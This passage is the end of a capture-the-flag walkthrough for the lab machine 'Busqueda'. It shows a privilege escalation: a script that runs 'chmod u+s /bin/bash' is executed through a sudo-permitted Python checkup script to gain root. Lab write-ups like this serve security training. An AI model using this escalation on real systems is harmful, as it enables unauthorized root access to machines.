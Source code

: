 I created the following script and granted it execute permission.
```
svc@busqueda:/tmp$ cat full-checkup.sh 
#!/bin/bash

chmod u+s /bin/bash
```

Now I will run the following command, and we should have our bash binary set as a SUID executable.
```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

![](assets/Pasted%20image%2020241026114407.png)

We no longer receive the `"Something went wrong"` error, which means our bash script ran successfully. We should have root access now.
![](assets/Pasted%20image%2020241026114647.png)

# Conclusion
Thanks for reading my walkthrough. This box was nice and was part of TJNull's "[NetSecFocus Trophy Room](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#).

